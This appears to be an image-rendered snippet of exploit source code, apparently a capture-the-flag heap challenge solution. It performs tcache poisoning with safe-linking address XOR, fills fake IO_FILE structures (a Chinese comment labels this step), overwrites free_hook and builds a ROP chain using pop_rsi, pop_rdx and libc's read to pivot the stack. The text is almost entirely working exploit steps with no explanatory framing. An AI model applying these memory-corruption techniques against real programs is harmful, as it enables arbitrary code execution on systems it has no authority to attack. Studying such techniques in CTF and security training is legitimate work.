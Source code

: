 ```plain
    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x140)>>12) ^ (heap_addr+0x810)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x160)>>12) ^ (heap_addr+0x830)
    edit(1, p64(poc))
    add(0)
    add(1)
    # 填充 FAKE IO_FILE
    edit(1, p64(0) + p64(0))
    delete(0)

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x180)>>12) ^ (heap_addr+0x850)
    edit(1, p64(poc))
    add(0)
    add(1)
    edit(1, p64(0) + p64(0))
    delete(0)
    add(2)
    add(2)
    edit(2, p64(0)+p64(free_hook))

    # heap_addr + 0x1c0
    add(0)
    add(1)
    delete(0)

    # heap_addr + 0x1c0: 0, pop rsi
    edit(0, p64(0)+p64(pop_rsi)) 
    delete(1)
    poc = ((heap_addr+0x1e0)>>12) ^ (heap_addr+0x1d0)
    edit(1, p64(poc))
    add(0)
    # heap_addr + 0x1e0: 0x100, &read
    edit(0, p64(0x100)+p64(libc.sym['read'])) 
    add(1)
    # heap_addr + 0x1d0: new_stack, pop rdx
    edit(1, p64(new_stack)+p64(pop_rdx)) 

    add(0)
    add(1)
    delete(0)
    delete(1)
    poc = ((heap_addr+0x220)>>12) ^ (heap_addr+0x1f0)
    edit(1, p64(poc))
    add(1)
    add(2)
```